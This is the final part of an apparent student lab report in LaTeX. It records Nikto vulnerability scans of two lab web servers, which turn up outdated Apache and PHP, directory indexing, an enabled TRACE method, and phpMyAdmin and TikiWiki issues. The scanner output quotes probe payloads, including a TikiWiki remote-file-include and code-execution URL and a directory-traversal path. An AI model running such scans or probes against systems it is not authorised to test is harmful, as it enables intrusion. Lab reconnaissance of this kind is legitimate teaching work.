---------------------------------------------------------------------------
+ 1 host(s) tested
\end{lstlisting}

\begin{lstlisting}[language=Bash]
root@bt-was:/pentest/web/nikto# ./nikto.pl -host tomcat-apache.sait230.ca -p 443
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.2.1.6
+ Target Hostname:    tomcat-apache.sait230.ca
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject: /O=TurnKey Linux/OU=Software appliances
                   Ciphers: DHE-RSA-AES256-SHA
                   Issuer:  /O=TurnKey Linux/OU=Software appliances
+ Start Time:         2016-02-12 14:06:31 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.16 (Debian)
+ Root page / redirects to: https://tomcat-apache.sait230.ca/cp
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.2.16 appears to be outdated (current is at least Apache/2.2.19). Apache 1.3.42 (final release) and 2.0.64 are also current.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6474 items checked: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2016-02-12 14:08:57 (GMT-5) (146 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
\end{lstlisting}

The results from the nessus scan are below:

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/nessus-tomcat.png}
	\caption{Nessus scan on tomcat-apache.sait230.ca}
	\label{fig:nessus-tomcat}
\end{figure}

\subsection{Vulnerabilities for ultimatelamp.sait230.ca}
nikto scan:

\begin{lstlisting}[language=Bash]
root@bt-was:/pentest/web/nikto# ./nikto.pl -host ultimatelamp.sait230.ca -p 80
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.2.1.3
+ Target Hostname:    ultimatelamp.sait230.ca
+ Target Port:        80
+ Start Time:         2016-02-12 14:10:16 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.0.54 (Ubuntu) PHP/5.0.5-2ubuntu1.2
+ PHP/5.0.5-2ubuntu1.2 appears to be outdated (current is at least 5.3.6)
+ Apache/2.0.54 appears to be outdated (current is at least Apache/2.2.19). Apache 1.3.42 (final release) and 2.0.64 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ Retrieved x-powered-by header: PHP/5.0.5-2ubuntu1.2
+ OSVDB-8450: /phpmyadmin/db_details_importdocsql.php?submit_show=true&do=import&docpath=../: phpMyAdmin allows directory listings remotely. Upgrade to version 2.5.3 or higher. http://www.securityfocus.com/bid/7963.
+ OSVDB-3268: /tmp/: Directory indexing found.
+ OSVDB-3092: /tmp/: This might be interesting...
+ OSVDB-3093: /dotproject/modules/files/index_table.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /dotproject/modules/projects/addedit.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /dotproject/modules/projects/view.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ /dotproject/modules/projects/vw_files.php: PHP include error reveals the full path to the web root.
+ OSVDB-3093: /dotproject/modules/projects/vw_files.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /dotproject/modules/tasks/addedit.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /dotproject/modules/tasks/viewgantt.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: /webcalendar/login.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-40478: /tikiwiki/tiki-graph_formula.php?w=1&h=1&s=1&min=1&max=2&f[]=x.tan.phpinfo()&t=png&title=http://cirt.net/rfiinc.txt?: TikiWiki contains a vulnerability which allows remote attackers to execute arbitrary PHP code.
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 6474 items checked: 3 error(s) and 23 item(s) reported on remote host
+ End Time:           2016-02-12 14:12:41 (GMT-5) (145 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
\end{lstlisting}

\newpage
\begin{appendix}
	\listoffigures
\end{appendix}

\end{document}
